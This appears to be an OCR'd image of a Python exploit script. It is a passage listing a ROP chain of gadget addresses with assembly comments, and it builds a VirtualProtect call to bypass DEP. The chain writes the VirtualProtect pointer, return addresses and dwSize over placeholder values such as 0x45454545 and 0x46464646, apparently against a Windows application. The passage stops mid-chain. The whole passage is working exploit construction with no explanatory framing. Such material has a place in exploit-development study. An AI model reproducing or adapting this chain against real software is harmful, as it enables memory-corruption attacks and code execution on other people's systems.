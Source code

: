 ```py
                ## Put ESP on EBX
                0x6aaf2fd3,  # push esp; pop ebx; pop esi; ret;
                0x3333333, # junk to populate ESI
                ## Change EBX with EAX
                0x68aad07c,  # xchg eax, ebx; ret;
                ## Change EAX wih ECX
                0x68be726b,  # xchg eax, ecx; ret;
                ## Put -20 in EBP and ADD it in ECX
                0x6aa812c9,  # pop ebp; ret;
                0xffffffe0, # -20
                0x6d9c8e42,  # add ecx, ebp; ret;

                ##############
                # -> PUT VirtualProtect in 0x45454545
                ##############
                ## Put VirtualProtect Addres in EAX
                0x68ae7ee3,  # pop eax; ret;
                0x690398A8, # VirtualProtect Address
                ## Make it a Pointer
                0x6fe58ce5,  # mov eax, dword ptr [eax]; ret;
                ## Write it on ECX
                0x6aaa04ec,  # mov dword ptr [ecx], eax; ret;

                ##############
                # -> Patch Return Address in 0x46464646 and 0x47474747
                ##############
                ## INC 4 ECX, ALIGN STACK
                0x61b474f8,  # inc ecx; ret;
                0x61b474f8,  # inc ecx; ret;
                0x61b474f8,  # inc ecx; ret;
                0x61b474f8,  # inc ecx; ret;
                ## PUT -320 IN EDX
                0x61e30fe3,  # pop edx; ret;
                0xfffffce0, # -320
                ## NEG EDX TO BECOME +320
                0x6eb47012,  # neg edx; ret;
                ## COPY ECX IN EAX
                0x6ab445f9,  # mov eax, ecx; ret;
                ## ADD THE 320 IN EAX
                0x6ab00690,  # add eax, edx; ret;
                ## WRITE EAX IN ECX (0x46464646)
                0x6aaa04ec,  # mov dword ptr [ecx], eax; ret;
                ## INC 4 INC, ALIGN STACK
                0x61b474f8,  # inc ecx; ret;
                0x61b474f8,  # inc ecx; ret;
                0x61b474f8,  # inc ecx; ret;
                0x61b474f8,  # inc ecx; ret;
                ## WRITE EAX IN ECX (0x47474747)
                0x6aaa04ec,  # mov dword ptr [ecx], eax; ret;

                ##############
                # -> Patch dwSize - 0x1001 - 0x48484848
                ##############
                ## INC 4 INC, ALIGN STACK
                0x61b474f8,  # inc ecx; ret;
                0x61b474f8,  # inc ecx; ret;
                0x61b474f8,  # inc ecx; ret;
                0x61b474f8,  # inc ecx; ret;
                ## POP -1001 IN EAX
                0x64b4fa38,  # pop eax; ret;
                0xffffefff,  # -1001
                ## NEG -1001, TO BECOME 1001
                0x68cef5b2,  # neg eax; ret;
```